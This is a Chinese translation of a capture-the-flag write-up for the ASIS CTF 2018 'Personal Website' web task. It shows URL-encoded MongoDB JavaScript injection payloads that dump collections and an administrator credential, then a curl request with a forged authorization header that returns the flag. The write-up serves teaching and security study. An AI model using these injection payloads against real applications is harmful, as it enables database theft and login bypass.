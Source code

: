 # MongoDB 注入— ASISCTF 2018 Quals —个人网站写(WEB 任务)

> 原文：<https://infosecwriteups.com/mongodb-injection-asisctf-2018-quals-personal-website-write-up-web-task-115be1344ea2?source=collection_archive---------1----------------------->

参与者被问了以下问题。

> 描述:
> 
> 我很高兴，因为我建立了新的个人网站。很安全，不是吗？

![](img/0c5b0ba395781ba6e9f035dcf1d5f0b0.png)

在侦察阶段之后，我们到达了一些终点:

```
/admin_area
/get/image/[id]
/get/text/[id]
/get/image/[id]
```

在`/get/image/[id]`上 Fuzzing，我们发现它在引用注入后返回错误:

```
**Application-Error:** exception: SyntaxError: Unexpected token ILLEGAL
```

大约花了 2 个小时，我们到达了一个没有错误的状态，查询如下:

```
1%7D);return%7B1:1%7D%7D%2f%2f
```

导致了:

```
Couln't find "picture_path" property in returning object from database.
```

事后:

```
1%7D);return%7Bpicture_path:'Injected'%7D%7D%2f%2f
```

最后提取数据。现在一堆问题:

```
1%7D);return%7Bpicture_path:tojson(db.getCollectionNames()),something:2%7D%7D%2f%2f
1%7D);return%7Bpicture_path:tojson(db.authentication.find()[1]),something:2%7D%7D%2f%2f
1%7D);return%7Bpicture_path:tojson(db.credentials.find()[0]),something:2%7D%7D%2f%2f
```

揭示了 2 个重要数据:

```
{
	"_id" : ObjectId("5ae63ae0a86f623c83fecfb4"),
	"id" : 2,
	"method" : "header",
	"format" : "md5(se3cr3t|[username]|[password])",
	"activate" : "true"
}{
	"_id" : ObjectId("5ae63ae0a86f623c83fecfb1"),
	"id" : 1,
	"username" : "administrator",
	"password" : "H4rdP@ssw0rd?"
}
```

所以`md5('se3cr3t'|administrator|h4rdP@ssw0rd?)`需要通过 header 方法登录，但是等等，header name 是什么？`/admin_area`访问透露:

```
authorization_token not found
```

最后:

```
curl [http://206.189.54.119:5000/admin_area](http://206.189.54.119:5000/admin_area) -H "authorization_token: 2cc348195dc1ab9842f9446b41ef650b"
ASIS{3c266f6ccdaaef52eb4a9ab3abc2ca70}
```